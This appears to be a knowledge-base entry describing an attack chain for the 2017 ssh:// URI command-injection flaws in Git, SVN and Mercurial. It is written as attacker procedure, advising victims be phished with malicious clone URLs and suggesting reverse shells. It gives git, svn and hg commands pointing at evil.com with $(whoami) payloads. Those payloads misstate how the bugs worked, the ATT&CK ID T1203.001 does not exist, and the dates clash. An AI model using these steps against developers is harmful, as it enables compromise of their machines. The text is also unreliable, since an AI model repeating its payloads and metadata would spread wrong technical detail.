

---
tags:
  - rce
  - command-injection
  - git
  - svn
  - mercurial
  - ssh
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
commands:
  - '[[commands/git-clone-malicious-uri]]'
  - '[[commands/svn-checkout-malicious-uri]]'
  - '[[commands/hg-clone-malicious-uri]]'
  - '[[commands/echo-test-command]]'
platforms:
  - Linux
  - Unix-like
complexity: medium
procedures:
  - '[[procedures/Craft-Malicious-ssh-URI-for-Command-Injection]]'
  - '[[procedures/Exploit-Git-ssh-URI-Injection]]'
  - '[[procedures/Exploit-SVN-ssh-URI-Injection]]'
  - '[[procedures/Exploit-Mercurial-ssh-URI-Injection]]'
step_count: 4
techniques:
  - '[[Unix Shell]]'
  - '[[T1203.001]]'
description: >-
  Attack chain exploiting OS command injection in ssh:// URI handling across
  multiple version control systems, enabling remote code execution on victim
  machines during repository operations.
skill_level: intermediate
impact_level: high
id: 39cfde95-96c2-47db-9fa5-5ebd37409340
created_at: '2025-12-14T17:23:42.391Z'
updated_at: '2025-12-14T17:23:42.391Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Unix Shell]]'
  - '[[T1203.001]]'
---
# RCE via Malicious ssh:// URIs in Git, SVN, and Mercurial

## Overview

This attack chain demonstrates remote code execution (RCE) vulnerabilities in version control systems (VCS) like Git, Subversion (SVN), and Mercurial through specially crafted ssh:// URIs. Discovered by Recurity Labs and reported via HackerOne (Report #260005), these flaws (CVE-2017-1000117 for Git, CVE-2017-9800 for SVN, CVE-2017-1000116 for Mercurial) allow OS command injection when victims clone or interact with malicious repository URLs. An attacker crafts a URI that injects commands into the underlying SSH client invocation, leading to arbitrary command execution on the victim's local system. The impact is high-severity, potentially resulting in full system compromise, data exfiltration, or persistence, especially in environments where developers routinely clone external repositories.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (exploits built-in VCS clients)

### Target Environment

- Target OS/Platform: Linux or Unix-like systems
- Required services/ports: SSH (port 22) access for URI resolution
- Network access requirements: Victim must have internet access to resolve the malicious URI

### Initial Access Requirements

- Credential requirements: None (social engineering to trick victim into cloning)
- Network position: External attacker
- Prior access needed: None, relies on victim executing clone command

## Detailed Attack Procedures

### Step 1: Craft Malicious ssh:// URI
procedure: [[procedures/Craft-Malicious-ssh-URI-for-Command-Injection]]

**Objective**: Create a specially crafted ssh:// URI that embeds OS command injection payload, exploiting improper URI parsing in VCS clients.

**Instructions**: Design the URI to include shell metacharacters like $( ) or ; to inject commands into the SSH invocation. For example, use a payload that executes a harmless test like whoami, but in real attacks, replace with malicious commands (e.g., reverse shell).

Use [[commands/echo-test-command]] to verify payload syntax locally:

```bash
echo 'ssh://git@evil.com/$(whoami)'
```

**Expected Output**: A formatted URI string ready for embedding in clone commands.

**Success Indicators**:
- URI parses without syntax errors
- Payload command executes in test environment

### Step 2: Exploit in Git
procedure: [[procedures/Exploit-Git-ssh-URI-Injection]]

**Objective**: Trigger RCE on a victim's machine by tricking them into cloning a repository with the malicious Git URI (CVE-2017-1000117).

**Instructions**: Provide the victim with the malicious URL via phishing, shared links, or CI/CD configs. When they run git clone, the URI is passed unsanitized to SSH, injecting the command.

Execute simulation with [[commands/git-clone-malicious-uri]] on a test machine:

```bash
git clone 'ssh://git@evil.com/$(whoami)'
```

**Expected Output**: Git attempts clone but executes the injected command, displaying user info or error with command output.

**Success Indicators**:
- Command output appears in terminal (e.g., username printed)
- No full clone succeeds, but injection triggers

### Step 3: Exploit in Subversion (SVN)
procedure: [[procedures/Exploit-SVN-ssh-URI-Injection]]

**Objective**: Achieve RCE during SVN checkout or update operations using a malicious URI (CVE-2017-9800), targeting SVN users.

**Instructions**: Embed the payload in an svn checkout URL shared with the victim. The lack of URI validation allows shell command injection via SSH protocol.

Test with [[commands/svn-checkout-malicious-uri]]:

```bash
svn checkout 'svn+ssh://svn@evil.com/repo/$(whoami)'
```

**Expected Output**: SVN processes the URI, injecting and executing the command, with output mixed in error logs.

**Success Indicators**:
- Injected command runs (e.g., whoami output)
- Potential SVN errors revealing injection success

### Step 4: Exploit in Mercurial (hg)
procedure: [[procedures/Exploit-Mercurial-ssh-URI-Injection]]

**Objective**: Execute arbitrary commands on the victim's system during hg clone or pull (CVE-2017-1000116).

**Instructions**: Craft and distribute the hg clone URL with injection. The vulnerable URI scheme permits command injection in SSH client calls.

Simulate using [[commands/hg-clone-malicious-uri]]:

```bash
hg clone 'ssh://hg@evil.com/repo/$(whoami)'
```

**Expected Output**: Mercurial invokes SSH with injected command, executing it and showing output.

**Success Indicators**:
- Command execution confirmed via output
- System compromise indicators (e.g., new processes)

## Attack Chain Summary

### Key Achievements

1. Successful command injection across Git, SVN, and Mercurial via ssh:// URIs
2. Demonstration of high-impact RCE without authentication
3. Potential for chaining to persistence or data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unix Shell]]
- [[T1203.001]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01*
